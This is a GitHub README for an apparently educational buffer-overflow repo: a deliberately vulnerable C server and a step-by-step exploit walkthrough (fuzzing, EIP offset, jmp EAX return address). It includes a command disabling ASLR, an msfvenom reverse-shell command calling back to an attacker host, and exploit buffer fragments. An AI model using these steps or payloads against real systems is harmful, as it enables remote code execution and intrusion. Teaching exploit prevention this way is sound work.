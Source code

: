 # BufferOverflow
***Buffer Overflow Python Scripts***

*Copyright (C) 2022  Dale Furneaux (opinfosec)*
*Released under GNU GPL v2*

This runs on Linux (intel architecture)


## A word of caution
The server.c is exploitable and containes a buffer overflow.  Please don't run the program on any public facing machine.  I should not have to say this, but you never know what some people might do!!  I use this repo for teaching others about the importance of preventing exploitable code.  If you have participated in the presentation and you enjoyed it, please star this repo and let others know about its existence.

## OS Protections
Don't forget to turn of ASLR if running on linux, this will temporarily disable ASLR.  Don't do this on a production server please!!!

```sh
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Python Scripts

Don't forget to change the IP address of the server

```python
s.connect(("172.16.110.135", 1337))
```

## Logical progression of a buffer overflow exploit
The logical progression of tests should be:

1. fuzzer (fuzz)
2. test for bad characters
3. pattern to determine the EIP offset
4. confirm the EIP with eip-test
5. generate our EvIl payload
6. find our opcode (jmp EAX) to jump to our exploit code
7. ExPlOiT

## Fuzzer

Python3 Fuzzer to enable a buffer overflow and get a general idea of the number of bytes it takes to overflow the buffer and casue a segmentation fault.

## Pattern Generator

Finds the correct offset of the EIP register which is used to load the EIP register with our jmp instruction.

## Bad Character Generator for Python3

Just a badcharacter generator to copy and paste into your bad character python script

## Test for bad character

This sends every bad character in a buffer overflow, which should be checked in the debugger to make sure they all arrive.  If the program doesn't crash or some characters don't appear, then we need to exclude them (bad characters) when we generate our payload.  The server.c does not have any bad characters except 0x00 (NULL), which should be obvious as we are sending a string.

## Eip Test

Verification of the Control of EIP register (the original return address location on the stack)

Adjust the filler to enable the overflow, the EIP offset is taken from the Pattern Generator offset. 
```sh
$ msf-pattern_create -l 1040
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9A ...
  
$ msf_pattern_offset -l 1040 -q <VALUE IN EIP REGISTER>
```
```python
filler = "A" * 1036
```

## BoF Exploit local and reverse shell

Simple BoF Exploit for server

Let the fun begin!!!

Don't forget to update the payload_shell with your own msfvenom generated reverse shell payload, notice we exlude the bad character 0x00 (NULL)
```sh
$ msfvenom -p linux/x86/shell_reverse_tcp  LHOST=172.16.110.1 LPORT=4242 -b '\x00' -f c -v payload_shell
```
where LMHOST=172.16.110.1 is your host ip where you want to get a reverse shell returned and the port LPORT=4242

Adjust the filler buffer to enable the overflow, adjust the eip address to pint to our found opcode (JMP EAX)
You can optionall add the extend to create an additional area at the end of the buffer after the EIP return, like we did in the eip-test.py script.
(this is not necessary, however it keeps the original BoF intact)
```python
filler = "A" * (1036 - ((len(nop_sled)) + len(payload_shell)))  # Filler 1036 Bytes - nop sled - size of payload
eip = "\x6f\x9b\x04\x08"    #0x08049b6f  Return Address JMP EAX
```
The NOP sled is used to allow variables to be place on the stack without overwriting the payload.  NOP stands for no-operation... the execution by the CPU does not change the state of the registers, esentially executing a NULL statement.

#### How we get the EIP address (jmp EAX)
We now need to jmp to our executable code that we generated.  One might thing that we can just jump to the address at the top of the stack, and while it seems logical at first, there is a fundamental flaw in this thinking.  The reasone we can't just jump to the address where our shell code is residing, is that we can not guarantee that the address of the top of the stack will be the same the next time the executable is run.  Imagine during one execution the top of the stack is located at 0xbff38538 and we hard code that into the eip, but the next time the executable runs the top of the stack is located somewhere else.  The eip would not execute your shell code as it jumps to somewhere else, and therefore is not reliable.  We need to find a reliable way to jump to our shell code.  Enter in the opcode to jump.  If we noticed during our buffer overflow in the debugger, the EAX register was pointing to the top of the stack, so we need to find an opcode that jumps to EAX (jmp EAX).  We can search our executable and find an existing jmp EAX and use that address in the EIP to jump to the opcode jmp EAX, which in turn jumps to the top of the stack where our shell code is located, and bingo our shell code is executed.

Also note that the eip address is stored backwards due to little endian (intel architecture)

## Server (server.c)

This is our fantastic C program, with excellent quality and lots of testing prior to the long holiday weekend.  Because the offices will be closed over the weekend, we had to rush and deploy the server on 50 machines to minimize any disruptions over the weekend.  The Quality, IT and Testing departments said it was good to go, and it was easy to test...

We came back into the office on Monday, and all 50 of our servers were hacked... not to mention our internal network, voip, databases, and a few of our clients.  One of my developer friends took a look at the code and said to me "I hope you didn't deploy that sofware on any internet facing machines."..  I of course said No, with a nervous smile.

I have spent hours looking for the problem, but I can't see any.  The server recieves only 100 Bytes from our client application, so there is no way it will crash.  Can you spot the problem?

To make the server executable (which runs on linux), use the attached make file and execute:

```sh
$ make clean && make all
```

Then use a debugger such as Olly or edb to run the server executable and test out the python scripts.


\<opsecinfosec\> @  42-AbuDhabi
